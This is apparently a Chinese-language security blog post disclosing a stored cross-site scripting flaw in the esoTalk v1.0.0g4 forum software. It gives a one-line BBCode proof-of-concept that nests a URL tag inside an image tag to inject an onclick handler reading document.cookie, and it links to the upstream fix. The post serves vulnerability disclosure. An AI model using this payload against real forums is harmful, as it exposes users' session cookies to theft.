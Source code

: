 ```yaml
---
layout: post
title: Esotalk v1.0.0g4 [img] 所导致的存储型跨站漏洞
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>


##### About

- Website: [http://esotalk.org/](http://esotalk.org/)
- Github: [https://github.com/esotalk/esoTalk](https://github.com/esotalk/esoTalk)

esoTalk是一款国外拥有众多优势的免费，开源的基于PHP和MySQL下的网页应用。 她的设计极为简介，速度极快，超轻量级别并且有良好的可拓展性。

##### Proof of Concept

这次与 http://1.hackersoul.sinaapp.com/post/ff0000-hsdb-0006.html 稍微有些不同的是，[img] 所导致的：

    [img][url=http://onclick=alert(document.cookie)//.com]http://www.hackersoul.com/image.jpg[/url][/img]


##### Fix

[https://github.com/esotalk/esoTalk/issues/401](https://github.com/esotalk/esoTalk/issues/401)

![http://ww1.sinaimg.cn/large/c334041bjw1eqyhs08k8fj20pi0bnjss.jpg](http://ww1.sinaimg.cn/large/c334041bjw1eqyhs08k8fj20pi0bnjss.jpg)